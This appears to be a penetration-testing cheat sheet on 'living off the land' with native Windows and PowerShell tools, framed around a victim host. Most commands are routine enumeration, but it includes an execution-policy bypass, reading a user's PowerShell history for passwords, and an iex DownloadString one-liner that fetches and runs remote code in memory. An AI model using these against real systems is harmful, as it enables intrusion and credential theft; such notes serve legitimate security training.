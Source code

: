 ```yaml
---
description: Techniques for utilizing native Windows tools to perform enumeration
---
```


# Living Off the Land

## Env Commands For Host & Network Recon

### **Basic Enumeration Commands**

<table data-header-hidden><thead><tr><th width="250"></th><th></th></tr></thead><tbody><tr><td><strong>Command</strong></td><td><strong>Result</strong></td></tr><tr><td><code>hostname</code></td><td>Prints the PC's Name</td></tr><tr><td><code>[System.Environment]::OSVersion.Version</code></td><td>Prints out the OS version and revision level</td></tr><tr><td><code>wmic qfe get Caption,Description,HotFixID,InstalledOn</code></td><td>Prints the patches and hotfixes applied to the host</td></tr><tr><td><code>ipconfig /all</code></td><td>Prints out network adapter state and configurations</td></tr><tr><td><code>set %USERDOMAIN%</code></td><td>Displays the domain name to which the host belongs (ran from CMD-prompt)</td></tr><tr><td><code>set %logonserver%</code></td><td>Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)</td></tr></tbody></table>

### **Systeminfo**

will print a summary of the host's information for us in one tidy output



## Harnessing PowerShell

<table data-header-hidden><thead><tr><th width="335"></th><th></th></tr></thead><tbody><tr><td><strong>Cmd-Let</strong></td><td><strong>Description</strong></td></tr><tr><td><code>Get-Module</code></td><td>Lists available modules loaded for use.</td></tr><tr><td><code>Get-ExecutionPolicy -List</code></td><td>Will print the <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2">execution policy</a> settings for each scope on a host.</td></tr><tr><td><code>Set-ExecutionPolicy Bypass -Scope Process</code></td><td>This will change the policy for our current process using the <code>-Scope</code> parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.</td></tr><tr><td><code>Get-Content C:\Users\&#x3C;USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt</code></td><td>With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.</td></tr><tr><td><code>Get-ChildItem Env: | ft Key,Value</code></td><td>Return environment values such as key paths, users, computer information, etc.</td></tr><tr><td><code>powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); &#x3C;follow-on commands>"</code></td><td>This is a quick and easy way to download a file from the web using PowerShell and call it from memory.</td></tr></tbody></table>

### **Downgrade Powershell**
